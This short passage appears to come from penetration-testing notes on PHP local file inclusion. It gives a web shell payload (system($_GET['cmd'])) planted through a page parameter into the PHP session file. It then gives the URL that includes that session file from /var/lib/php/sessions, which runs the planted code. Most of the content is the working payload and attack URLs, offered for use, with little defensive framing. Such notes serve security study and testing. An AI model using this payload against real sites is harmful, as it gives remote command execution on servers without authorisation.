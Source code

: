 ### Session Files

Sometimes we could exploit session files with a payload like this:

```URL
sessions.php?page=<?php system($_GET['cmd']);?>
```

Then we access the URL with the following path:

```URL
sessions.php?page=/var/lib/php/sessions/sess_[sessionID]
```

Where `[sessionID]` is value from your PHPSESSID cookie. (Could be found in Application tap in inspect elements)